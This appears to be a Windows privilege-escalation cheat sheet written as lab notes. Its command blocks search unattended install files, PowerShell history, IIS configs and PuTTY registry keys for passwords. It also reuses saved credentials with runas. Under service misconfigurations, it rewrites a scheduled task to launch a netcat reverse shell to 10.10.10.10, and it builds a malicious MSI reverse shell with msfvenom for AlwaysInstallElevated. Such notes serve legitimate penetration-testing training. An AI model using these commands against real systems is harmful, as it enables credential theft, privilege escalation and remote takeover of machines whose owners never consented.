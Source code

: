 # Password History ✅
## File-Unattended ✅
### cmd ✡️
```cmd
dir C:\sysprep.inf /s /p
dir C:\sysprep.xml /s /p
dir C:\unattend.xml /s /p
```
### powershell ✡️
```powershell
Get-ChildItem -Path C:\ -Filter "sysprep.inf" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Filter "Unattend.xml" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Windows\Panther\ -Filter "*.xml" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Windows\system32\sysprep\ -Filter "*.xml" -Recurse -ErrorAction SilentlyContinue
```
## Powershell History ✅
### cmd ✡️
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt # run in cmd
```
### powershell ✡️
```powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt # run in powershell
```
## Saved Windows Credentials ✅
```powershell
cmdkey /list # show save user credentials
runas /savecred /user:<username> cmd.exe # run cmd with another user 
runas /savecred /user:<username> powershell.exe # run powershell with another user
```
## IIS Configuration ✅
```cmd
type C:\inetpub\wwwroot\web.config | findstr connectionString
forfiles /p C:\ /s /m web.config /c "cmd /c findstr /i connectionString @file" 2>$null
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
## Retrieve Credentials from Software: PuTTY ✅
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
# Abusing Service Misconfigurations ✅
## Scheduled Tasks ✅
```cmd
schtasks /query /tn vulntask /fo list /v  # target system
# ⬇️⬇️⬇️⬇️⬇️⬇️
# Folder: \
# HostName:                             THM-PC1
# TaskName:                             \vulntask
# Task To Run:                          C:\tasks\schtask.bat
# Run As User:                          taskusr1
------------------------------
icacls c:\tasks\schtask.bat # check the file permissions in target system 
------------------------------
echo c:\tools\nc64.exe -e cmd.exe 10.10.10.10 4444 > C:\tasks\schtask.bat # target system
------------------------------
nc -lvnp 4444 # our kali
------------------------------
schtasks /run /tn vulntask # target system
```
## AlwaysInstallElevated ✅
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer # target system
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer # target system
------------------------------
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f msi -o malicious.msi # our kali
# transfer malicious.msi file to our kali # target system
------------------------------
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi # target system
```
## Windows-Services-Enum ✅
```cmd
 sc qc apphostsvc
```
